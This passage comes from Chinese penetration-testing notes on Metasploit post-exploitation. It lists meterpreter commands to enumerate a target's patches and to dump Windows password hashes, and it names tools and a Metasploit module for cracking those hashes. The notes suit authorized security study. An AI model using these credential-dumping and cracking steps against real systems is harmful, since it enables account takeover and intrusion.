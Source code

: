 - 查看靶机所打补丁

  ```
  # meterpreter > run post/windows/gather/enum_patches
  ```

  ![MSF模块_4](./后渗透/MSF脚本_4.png)

### 哈希传递

> Passing the Hash
>
> Window系统下的Hash密码格式为：用户名称:RID:LM-Hash值:NT-Hash值
>
> root:1000:aad3b435b51404eeaad3b435b51404ee:2b55f502918363eaaf713ba072e02e38:::

- 获取Hash值

  - hashdump

    ```
    # meterpreter > hashdump
    # meterpreter > run post/windows/gather/hashdump
    ```

  - smart_hashdump

    ```
    # meterpreter > run post/windows/gather/smart_hashdump
    ```

- 哈希值破解

  - 在线破解：https://www.cmd5.com/

  - 离线破解：findmyhash、L0phtCrack

  - MSF模块

    > auxiliary/analyze/jtr_crack_fast模块
    >
    > 可以自动从缓存中获取hash值

    ```
    # msf > use auxiliary/analyze/jtr_crack_fast
    # msf exploit(jtr_crack_fast) > run
    ```
